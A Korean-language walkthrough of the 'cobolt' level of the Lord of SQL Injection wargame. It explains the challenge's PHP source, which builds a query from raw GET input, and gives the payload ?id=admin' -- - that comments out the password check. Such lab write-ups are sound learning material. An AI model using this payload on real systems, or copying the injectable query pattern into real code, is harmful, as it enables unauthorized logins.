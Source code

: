 # Lord of SQL Injection No.2 - cobolt
## 문제 출제 의도
SQL Injection을 통해 원하는 값을 select 할 수 있는지 확인한다. 
## 소스 코드 분석
+ 소스 코드
~~~
<?php
  include "./config.php"; 
  login_chk();
  dbconnect();
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[id])) exit("No Hack ~_~"); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  $query = "select id from prob_cobolt where id='{$_GET[id]}' and pw=md5('{$_GET[pw]}')"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id'] == 'admin') solve("cobolt");
  elseif($result['id']) echo "<h2>Hello {$result['id']}<br>You are not admin :(</h2>"; 
  highlight_file(__FILE__); 
?>
~~~
+ 소스 코드 분석 <hr>
    ~~~
    ?php , ?>
    include "./config.php";
    login_chk();
    dbconnect();
    ~~~ 
    - 내용이 php로 작성되었다는 것을 알 수 있다.
    - congig.php라는 분리된 파일을 외부에서 불러와 적용시킨다.
    - login_chk(); 로그인 여부를 확인하는 함수라고 추정할 수 있다.
    - dbconnect();라는 함수는 데이터베이스와 연동하는 함수라고 추정 가능하다.
    ~~~
    if(preg_match('/prob|_|\.|\(\)/i', $_GET[id])) exit("No Hack ~_~"); 
    if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
    ~~~
    - prob, . , ( , ) 이 받은 id 값에 있으면 No Hack ~_~이 출력된다.
    - prob, . , ( , ) 이 받은 pw 값에 있으면 No Hack ~_~이 출력된다.
    ~~~
     $result = @mysql_fetch_array(mysql_query($query));
    ~~~
    - mysql_fetch_array 인출된 값을 연관배열/숫자형 인덱스 로 저장한다.
    ~~~
    if($result['id'] == 'admin') solve("cobolt");
    elseif($result['id']) echo "<h2>Hello {$result['id']}<br>You are not admin :(</h2>"; 
    ~~~
    - 만약 입력 받은 아이 값이 admin이면 solve("cobolt")를 출력하고 그렇지 않다면 You are not admin을 출력한다.
## 문제 해결
  + 풀이 방법 <hr>  
  **Get**방식으로 값을 입력받기 때문에 URL 다음에 다음과 같이 쿼리 스트링을 추가하면 된다. 
    ~~~
    ?id=admin' -- -
    ~~~
    그러면 결과적으로 쿼리는 
    ~~~
    select id from prob_cobolt where id='admin'-- -' and pw=md5('')
    ~~~
    이 됨으로 $result['id']에 'admin'이 들어가 문제가 해결된다.